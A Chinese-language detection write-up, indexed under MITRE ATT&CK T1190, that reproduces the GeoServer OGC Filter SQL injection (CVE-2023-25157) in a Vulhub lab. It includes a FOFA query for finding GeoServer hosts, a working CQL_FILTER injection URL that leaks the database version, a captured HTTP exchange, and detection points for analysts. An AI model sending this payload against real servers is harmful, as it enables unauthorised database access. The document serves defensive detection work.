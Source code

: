 # T1190-CVE-2023-25157-GeoServer OGC Filter SQL注入漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例
GeoServer 是OpenGIS Web服务器规范的J2EE实现，利用GeoServer可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

FOFA: app = "GeoServer"

执行如下命令启动一个SeoServer 2.22.1：

```
docker-compose up -d
```
环境启动后，访问即可查看到GeoServer的首页。http://your-ip:8080/geoserver

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- 工作区名称：vulhub
- 数据存储名称：pg
- 要素类型（表）名称：example
- 要素类型的属性之一：name

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![test](1.jpg)

获取GeoServer中WFS服务的图层信息（包括支持的 WFS 版本、支持的数据格式、支持的查询方式、支持的空间参考系统等）

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities HTTP/1.1
```

获取某个图层的属性名称

```
GET /geoserver/wfs?request=DescribeFeatureType&version=2.0.0&service=WFS&outputFormat=application/json&typeName=图层名称 HTTP/1.1
```

## 测试留痕

```yml
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith(name%2C%27x%27%27)+%3D+true+and+1%3D(SELECT+CAST+((SELECT+version())+AS+integer))+--+%27)+%3D+true HTTP/1.1
Host: 192.168.101.129:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
Content-Type: text/xml;charset=utf-8
Content-Encoding: gzip
Transfer-Encoding: chunked
Server: Jetty(9.4.48.v20220622)

<?xml version="1.0" ?>
<ServiceExceptionReport
   version="1.2.0"
   xmlns="http://www.opengis.net/ogc"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.opengis.net/ogc http://schemas.opengis.net/wfs/1.0.0/OGC-exception.xsd">
   <ServiceException>
      java.lang.RuntimeException: java.io.IOException
java.io.IOExceptionERROR: invalid input syntax for type integer: &quot;PostgreSQL 14.8 on x86_64-pc-linux-musl, compiled by gcc (Alpine 12.2.1_git20220924-r10) 12.2.1 20220924, 64-bit&quot;
</ServiceException></ServiceExceptionReport>
```

流量包见同目录下pcap文件。

## 检测规则/思路
对请求路径及返回内容进行重点关注。

研判分析要点：
- 请求方法GET
- 请求url路径及路径中是否包含SQL语句
- 状态码200，结合返回body信息，判断攻击是否成功。

辅助判断：上下文关联分析，是否存在获取GeoServer中WFS服务的图层信息、获取某个图层的属性名称等行为

## 参考推荐

MITRE-ATT&CK-T1190
<https://attack.mitre.org/techniques/T1190/>

GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）
<https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2023-25157/README.zh-cn.md>

GeoServer SQL注入漏洞复现（CVE-2023-25157）
<https://blog.csdn.net/qq_41904294/article/details/131117123>

GeoServer SQL 注入漏洞分析（CVE-2023-25157）
<https://www.freebuf.com/vuls/371011.html>

